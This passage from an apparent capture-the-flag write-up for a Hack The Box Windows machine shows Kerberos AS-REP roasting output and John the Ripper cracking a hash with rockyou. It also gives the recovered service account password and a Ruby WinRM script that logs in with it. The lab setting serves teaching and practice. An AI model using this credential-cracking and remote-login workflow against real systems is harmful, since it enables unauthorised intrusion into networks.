 ```
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

```


We pass the hash to john.

```
$john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt


Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
1g 0:00:00:04 DONE (2019-12-15 20:43) 0.2192g/s 896000p/s 896000c/s 896000C/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

`svc-alfresco \ s3rvice`




<hr width="300" size="10">



<h3>Winrm</h3>


[Winrm](https://github.com/WinRb/WinRM) allows us to connect to the Windows Remote Management service.

first:
```
gem install winrm
```


Then we can use a simple ruby script to connect.



`cat winrm.rb`:
```
require 'winrm'
opts = { 
  endpoint: 'http://10.10.10.161:5985/wsman',
  user: 'svc-alfresco',
  password: 's3rvice'
}
conn = WinRM::Connection.new(opts)
conn.shell(:powershell) do |shell|
  output = shell.run('$PSVersionTable') do |stdout, stderr|
    STDOUT.print stdout
    STDERR.print stderr
  end
  puts "The script exited with exit code #{output.exitcode}"
end
```
